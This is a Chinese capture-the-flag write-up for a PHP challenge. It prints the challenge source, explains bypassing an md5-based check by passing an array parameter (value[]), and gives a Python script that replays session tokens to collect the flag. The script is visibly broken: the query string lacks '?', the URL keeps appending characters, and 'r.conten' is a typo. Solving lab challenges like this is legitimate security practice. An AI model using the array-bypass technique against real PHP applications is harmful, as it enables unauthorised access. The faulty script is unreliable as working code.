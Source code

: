 # 爆破-3

## Description

这个真的是爆破。

## Solution

打开网站，是一段 php 代码：

```php
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

那么这就是一段代码审计，只要第一次传入的 value 值和 SESSION 的 whoami 一样，则会 nums 的数量加一，页面会显示两个新的字符。我们再把这两个字符重新传入。通过 md5 函数无法对数组进行处理的漏洞来绕过 substr(md5($value), 5, 4) == 0 的判断。

这里有两种做法，可以手动地传入 value，格式为 ?value[]=ea，然后请求 10次就可以了，或者使用脚本，注意这里时间如果超过2分钟 session 就会被销毁掉。

```python
import requests

url = "http://50bfa81ec60b4ce988c6aa9c7bc3844fe82b145d95704b9a.game.ichunqiu.com/value[]="
s = requests.session()
r = s.get(url + "ea")
for i in range(20):
    url = url + r.content[0:2]
    r = s.get(url)
    if "flag" in r.content:
        print(r.conten)
        exit()
``` 